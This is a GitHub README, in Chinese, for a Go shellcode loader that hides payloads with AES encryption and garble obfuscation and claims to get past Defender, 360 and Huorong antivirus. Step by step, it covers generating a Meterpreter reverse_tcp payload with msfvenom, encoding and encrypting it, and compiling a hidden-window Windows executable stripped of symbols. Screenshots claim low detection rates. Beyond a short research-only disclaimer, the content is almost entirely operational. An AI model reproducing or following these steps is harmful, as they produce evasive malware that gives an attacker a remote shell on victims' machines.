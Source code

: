 # go-shellcode-loader

GO混淆免杀shellcode加载器AES加密
过DF、360和火绒


#### 获取项目

```Bash
git clone https://github.com/HZzz2/go-shellcode-loader.git
cd go-shellcode-loader
//下条命令安装第三方混淆库  GitHub地址：https://github.com/burrowers/garble
go install mvdan.cc/garble@latest    

```

#### 生成shellcode并base64

`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=9999 -f raw > rev.raw`

`base64 -w 0 -i rev.raw > rev.bs64`

`cat rev.bs64`

**复制到aes-sc.go中的51行替换payload**

运行aes-sc.go生成AES加密后的值

`go run aes-sc.go`

复制输出的值到go-sc.go中的73行替换payload

#### **编译成exe可执行程序**

`garble -tiny -literals -seed=random build -ldflags="-w -s -H windowsgui" -race go-sc.go`

参数解释：

  garble(混淆库)：
                          
                          -tiny                    删除额外信息
                          
                          -literals               混淆文字

                          -seed=random   base64编码的随机种子 

  go：
        
        -w                        去掉调试信息，不能gdb调试了

        -s                         去掉符号表

        -H windowsgui    隐藏执行窗口，不占用 cmd 终端。 （被查杀率高）

        -race                    使数据允许竞争检测

编译后得到go-sc.exe

#### 检测图

**火绒**

![image](https://user-images.githubusercontent.com/22775890/172315590-c32aa9ad-0b2b-43cd-a96c-45d971a83ef5.png)


**360杀毒**

![image](https://user-images.githubusercontent.com/22775890/172315610-9bfa9d41-31a1-42d5-bd54-b0ce3e73318d.png)


**360卫士**

![image](https://user-images.githubusercontent.com/22775890/172315642-73266f42-6019-42b7-bb02-5dd59b0925b7.png)



**DF**

![image](https://user-images.githubusercontent.com/22775890/172315670-89a23a36-5e1f-40e8-b311-a4a22490d1ca.png)



**virustotal**

![image](https://user-images.githubusercontent.com/22775890/172315706-4fbd57a6-0e14-497a-af91-ea6c7cdf0704.png)



**微步云杀箱**

![image](https://user-images.githubusercontent.com/22775890/172315732-84eb7a75-481c-4904-a341-bd96a336ad87.png)




**运行效果**




https://user-images.githubusercontent.com/22775890/172315782-707cfbbb-90ed-4156-97d8-dcaf0da8a554.mp4


## 免责声明
仅供安全研究与教学之用，如果使用者将其做其他用途，由使用者承担全部法律及连带责任，本人不承担任何法律及连带责任。
